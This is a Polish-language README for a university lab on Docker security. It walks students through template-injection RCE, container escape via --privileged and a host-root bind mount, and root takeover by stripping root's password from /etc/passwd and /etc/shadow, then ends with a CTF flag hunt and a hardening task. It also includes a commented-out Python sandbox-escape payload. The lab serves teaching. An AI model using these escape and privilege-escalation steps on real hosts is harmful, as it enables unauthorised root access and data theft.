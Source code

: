 # Docker Escape
***This project shows vulnerability how to escape from Docker container in which web application is running.*** <br />
<br />
## *About*
This project was made for academic purposes during one of our courses at the AGH University of Krakow. <br />
We present security issues in Docker. We show vulnerabilities of this software and best practices related to them. Below we also include case-studies showing how to get into the server from the user level of a web application, how to escape from this container and the possibilities that open up to us after such an escape.<br />
<br />


<br />

*** 
# Tasks
***
<br />

## *Task 0 - Przygotowanie środowiska*
Aby rozpocząć wykonywanie zadań sklonujcie repozytorium za pomocą ``git clone`` lub pobierzcie paczkę zip. Będziemy używać Dockera (kontener w kontenerze  z uruchomionym serwerem ubuntu). Całość została skonfigurowana w Dockerfile.

Jeżeli już posiadasz repozytorium na dysku przejdź do katalogu, w którym znajduje się plik z konfiguracją. Następnie wykonaj poniższe komendy: <br />

1. Build - zbuduj kontener (może zająć chwilę w zależności od szybkości łącza):
	```bash: 
	docker build -t ubuntu-dind .
	```
2. Run - uruchom kontener w tle:
	```bash: 
	docker run -d -p 5000:5000 --privileged --hostname ubuntu-dind --name ubuntu-dind ubuntu-dind
	```
3. Enter - wejdź do kontenera:
	```bash: 
	docker exec -itu adam ubuntu-dind bash
	```

> ***TIP** - w przypadku problemów -> zrestartuj kontener*

<br />

## *Task 1 - Dostęp do serwera z perspektywy użytkownika aplikacji webowej*
W kontenerze uruchomiona jest aplikacja webowa. Znając jej podatność omówioną podczas prezentacji spróbuj, za pomocą preparacji url-a, dokonać araku typu RCE, czyli z widoku interfejsu użytkownika wykonać kod po stronie serwera  (np. podawany podczas prezentacji przykład wyrażenia 7*7). 
<br />
> Jeżeli w wyniku wcześniejszego przykładu otrzymasz wynik 49
> to możemy przejść dalej.

 <br />
 
<!-- Teraz przyjrzyj się poniższemu wyrażeniu napisanym w języku Python. Jednak najpierw użyj w konsoli programu ``hack.py``, który jest dołączony do paczki z repozytorium i liczbę, którą znalazłeś wpisz zamiast ``<Liczba_Którą_Znalazłeś>``. 

> Jeżeli cię to ciekawi to poniższy kod w sprytny sposób przedostaje się
> z obiektu napisu przez moduł ``warnings`` i klasę ``WarningMessage``
> do modułu os, który posiada metody pozwalające na uruchamianie komend systemowych. <br />
> 
<br />

```
"baiim".__class__.__base__.__subclasses__()[<Liczba_Którą_Znalazłeś>].__init__.__globals__['sys'].modules['os'].popen(<Twoja_Komenda>).read()
```
<br />
Spróbuj wyświetlić strukturę plików w katalogu aplikacji na serwerze.

**Odpowiedź** - wyślij zrzut ekranu, który pokaże wylistowane w aplikacji wszystkie pliki i katalogi z  katalogu aplikacji na serwerze razem z użytą komendą. -->

<br />

## *Task 2 - Docker Escape & Privilege Escalation*


> **TIP** - proponujemy przejście z wykonywaniem zadań do terminala. Otwórz go w katalogu projektu.<br />

Ucieczkę z kontenera umożliwia nam złe skonfigurowanie kontenera przez osobę, która go tworzyła. Wciel się w taką osobę: <br />

1. Spróbuj zmienić użytkownika na root-a (nie powinieneś mieć takiej możliwości - powinieneś być na koncie użytkownika ``adam``) {**PE**}: 
	```bash
	su root
	```
2. Sprawdź listę dostępnych obrazów:
	```
	docker images
	```
3. Pobierz obraz Ubuntu Docker  ze zdalnego repozytorium:
	```
	docker pull ubuntu:18.04
	```

    Przykładowe pobranie obrazu:
    ![image](https://github.com/norka02/Docker-Escape/assets/121463460/e5f1fbfc-c4f9-4543-a6b0-f802d55b7039) 


4. Po pobraniu sprawdź czy obraz pobrał się poprawnie:
	```
	docker images
	```
5. Poniżej zostały przedstawione dwie przykładowe możliwości stworzenia kontenera z potencjalną podatnością: <br />

	1.  
		```
		docker run --rm -it --name kontener-adama --hostname ubuntu-by-adam --privileged ubuntu:18.04 bash
		```
	2. 
		```
		docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
		```
---

> ***Pierwsza opcja pozwoli nam stworzyć kontener z flagą ``--priviliged``, dzięki której będzie możliwe wyjście do systemu hosta poprzez zmontowanie partycji . W zależności od solidności zabezpieczeń serwera będzie można edytować pliki na maszynie hosta lub tylko je czytać.***


> **Druga opcja daje nam z reguły dużo większe możliwości jako osobie,
> która uruchamia kontener, ale także dużo większe możliwości dla
> potencjalnego atakującego. W skrócie montuje ona volumen z katalogu
> ``/`` hosta do katalogu ``/host`` w kontenerze dzięki czemu możemy
> przykładowo przesyłać pliki między hostem a kontenerem.**

---

6. Zacznijmy od pierwszego scenariusza. 
	Będąc na użytkowniku **adam** uruchom kontener {**DE**}. <br />
	Teraz jesteś wewnątrz swojego kontenera, który przed chwilą stworzyłeś. Możesz to 	sprawdzić za pomocą komend ``whoami`` oraz ``hostname``.
	<br />
Przykładowy ScreenShot znajduje się poniżej:
![image2](https://github.com/norka02/Docker-Escape/assets/94318576/7a2266e8-ce4f-44dd-9a3d-e93341a36755) <br />

	***Jak możesz zauważyć tworząc własny kontener masz w nim uprawnienia root-a. <br />***
	<br />


7. Następnie stwórz w utworzonym kontenerze katalog: <br />
	```bash
	mkdir -p /mnt/share
	```
8. Oraz podmontuj odpowiednią partycję dysku do tego katalogu np. /dev/sdc: <br />
	```bash
	mount /dev/sdc /mnt/share
	```
---
Domyślnie polecenie mount nadaje ci prawa do zapisu i odczytu, ale jeśli wystąpiłby przykładowo taki komunikat zmień partycję dysku(chociaż i tak już udało ci się zrobić więcej niż pozwalały na to uprawnienia użytkownika adam):
![image3](https://github.com/norka02/Docker-Escape/assets/94318576/d1cd3e07-3672-4086-bb40-2b86b14bceb5) <br />
 Listę partycji możesz uzyskać za pomocą polecenia: <br />
```bash
lsblk
```
---
9. Dzięki podmontowaniu partycji jesteśmy w stanie uzyskać dostep do struktury katalogów hosta. Sprawdź czy masz dostęp do struktury katalogów hosta:
	```bash
	 ls -l /mnt/share 
	```
	Poszperaj trochę po systemie. Może znajdziesz coś ciekawego ;). 
	PS: Zobacz jak niewiele trzeba do wycieku danych. <br />

10. Wyjdź z kontenera za pomocą ``exit``. <br />


11. Teraz przejdźmy do scenariusza drugiego. Uruchom kontener za pomocą wcześniej podanej komendy. Następnie wylistuj strukturę katalogów w której obecnie się znajdujesz. 
12. Spróbuj przedostać się do zewnętrznego systemu plików, odnajdź pliki ``/etc/shadow`` oraz ``/etc/passwd`` i usuń w nich elementy odpowiadające za uwierzytelnienie użytkownika root. 
---
  *Jeżeli nie masz zainstalowengo żadnego edytora tekstowego wykonaj poniższe komendy:*
  ```bash
  apt update
  ```
  
  *Instalacja w kontenerze wybranego przez siebie edytora tekstowego (np. vim, nano):*
  ```bash
  apt install vim
  ```
---
13. Za pomocą edytora tekstowego otwórz plik ``/etc/shadow`` oraz ``/etc/passwd``. 

14. Trzeba usunąć część wskazującą na obecność hasła root-a w pliku passwd{**PE**}. Zrób tak samo z plikiem shadow. <br />
	
	![image5](https://github.com/norka02/Docker-Escape/assets/94318576/8bf49b45-925b-4c12-b7a5-9a6a5cbf5b4b)
		![image4](https://github.com/norka02/Docker-Escape/assets/94318576/f38a79ad-7e7a-4e0b-a404-cfce4b5aaea8)

15. Wyjdź z kontenera za pomocą ``exit``. <br />

16. Zmień użytkownika na root-a {**PE**}:
	```bash
	su root
	```
Brawo właśnie przejąłeś konto roota! <br />

**Odpowiedź** - wyślij zrzut ekrany potwierdzający twoje uprawnienia root-a. 
<br />

## *Task 3 - Mini-CTF*
Mając uprawnienia root-a możesz poruszać się bezproblemowo po systemie. Znajdź **tajny** katalog, który nie powinien znajdować się w systemie/wyróżnia się spośród pozostałych. W nim znajduje się plik z flagą. Zmodyfikuj znaleziony plik dodając swoje imię i nazwisko.

> Flaga znajduje się w pliku tekstowym i jest oznaczona w następujący
> sposób: ``` CTF{<flaga>} ```

**Odpowiedź** - wyślij widoczną zmodyfikowaną flagę wraz z dopisanym unikalnym tekstem wymienionym wyżej oraz ścieżkę do katalogu, w którym znajduje się znaleziona flaga.  <br />

## *Task 4 - Tworzenie Bezpiecznego Kontenera*
Posiadając całą wiedzę zdobytą podczas prezentacji oraz poprzednich zadań zastanów się w jaki sposób możesz zabezpieczyć kontener przed różnymi wektorami ataków. Stwórz kontener, który spełnia wszystkie best-practice dot. bezpiecznego tworzenia kontenera Dockera.  <br />

**Odpowiedź** - wyślij widoczną komendę, która tworzy **Bezpieczny Kontener**. <br />
